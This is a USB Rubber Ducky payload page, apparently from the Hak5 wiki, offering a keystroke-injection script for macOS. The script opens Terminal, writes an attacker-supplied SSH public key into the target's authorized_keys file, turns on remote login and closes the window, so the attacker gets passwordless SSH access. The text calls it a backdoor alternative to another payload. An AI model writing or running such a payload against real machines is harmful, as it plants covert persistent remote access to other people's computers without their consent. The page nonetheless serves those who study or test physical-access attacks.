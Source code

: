 **Author: Jesse Wallace (c0deous)**

This script adds an ssh public key to the authorized_keys file on a target's mac. After running you can connect to the target computer with `ssh targetuser@targetcomputer` and you will be granted access without a password.  This a good alternative to the [OS X User Backdoor payload](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---OSX-User-Backdoor). For more information on generating an id_rsa.pub read [this](https://www.digitalocean.com/community/articles/how-to-set-up-ssh-keys--2) (steps 1 & 2).  Note: I reccomend you use [duckencoder 2.6.3](http://code.google.com/p/ducky-decode/downloads/detail?name=DuckEncoder_2.6.3.zip&can=2&q=) to encode these payloads. 
 
Replace RSA_PUB_ID with your SSH Public Key.

    REM Title: OS X Get SSH access
    REM Author: Jesse Wallace (c0deous)
    REM This script adds a ssh public key to the authorized_keys file on a target's mac.
    
    DELAY 1000
    COMMAND SPACE
    DELAY 500
    STRING Terminal
    DELAY 500
    ENTER
    DELAY 800
    STRING echo 'RSA_PUB_ID' >> ~/.ssh/authorized_keys
    ENTER
    STRING systemsetup -setremotelogin on
    ENTER
    DELAY 1000
    STRING killall Terminal
    ENTER

    REM Note: you may shorten the times if you think they are too slow.  I made them to accomodate older macs that can't get around very fast.
